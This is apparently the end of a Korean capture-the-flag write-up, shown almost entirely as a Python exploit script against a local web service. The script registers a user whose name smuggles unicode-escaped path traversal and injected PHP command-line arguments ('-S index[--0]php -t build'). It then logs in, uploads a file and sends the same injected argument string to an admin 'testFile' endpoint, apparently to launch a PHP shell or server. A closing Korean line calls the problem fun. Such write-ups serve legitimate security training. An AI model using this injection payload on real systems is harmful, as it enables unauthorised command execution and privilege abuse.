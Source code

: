 ```python

URL = "http://lokalhost:8001"
PHP_SHELL_PATH = ""
ADMIN_TOKEN = ""
test_files = {
    "file": ("tmp.txt", 'hi', "text/plain")
}
with Session() as sess:
    file_exists_bypass_user = f'{{"username":"\\u002e\\u002e\\\\\\u0061dmin\\\\{PHP_SHELL_PATH} -S index[--0]php -t build", "password":"123456"}}'
    res = sess.post(f"{URL}/api/register", data=file_exists_bypass_user, headers={"Content-Type": "application/json"})
    print(res.text)
    res = sess.post(f"{URL}/api/login", data=file_exists_bypass_user, headers={"Content-Type": "application/json"})
    print(res.text)
    TOKEN = res.json()['token']

    res = sess.post(f"{URL}/api/upload",headers={"Authorization":f"Bearer {TOKEN}"}, files=test_files)
    print(res.text)

    res = sess.post(f"{URL}/api/admin/testFile", json={"file": f"{PHP_SHELL_PATH} -S index[--0]php -t build"}, headers={"Authorization": f"Bearer {ADMIN_TOKEN}"}, allow_redirects=False)
    res = sess.post(f"{URL}/api/admin/testFile", json={"file": f"{PHP_SHELL_PATH} -S index[--0]php -t build"}, headers={"Authorization": f"Bearer {ADMIN_TOKEN}"}, allow_redirects=False)
    print(res.text)
```
{% endraw %}
잠깐이지만 아주 재미있게 생각해볼 수 있었던 문제였습니다!